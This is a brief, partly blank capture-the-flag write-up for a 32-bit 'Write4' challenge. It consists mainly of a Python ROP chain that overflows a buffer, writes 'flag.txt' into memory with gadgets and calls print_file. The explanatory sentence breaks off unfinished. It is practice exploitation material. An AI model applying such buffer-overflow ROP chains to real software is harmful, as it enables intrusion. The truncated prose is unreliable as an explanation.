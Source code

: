 This is a Quick Writeup on **Write4** challenge

## For 32 bit

On small reversing , we see **print_file** function which will




final Exploit looks like this
```python
printf = p32(0x080483D0)
# 0x08048543 : mov dword ptr [edi], ebp ; ret
mov = p32(0x08048543)
# 0x080485aa : pop edi ; pop ebp ; ret
popop = p32(0x080485aa)
write1 = p32(0x804a0c0)
write2 = p32(0x804a0c4)

payload = flat(
    b"a"*44,
    popop,
    write1,
    b'flag',
    mov,
    popop,
    write2,
    b'.txt',
    mov,     
    printf,
    b"xxxx",
    write1  
)
```















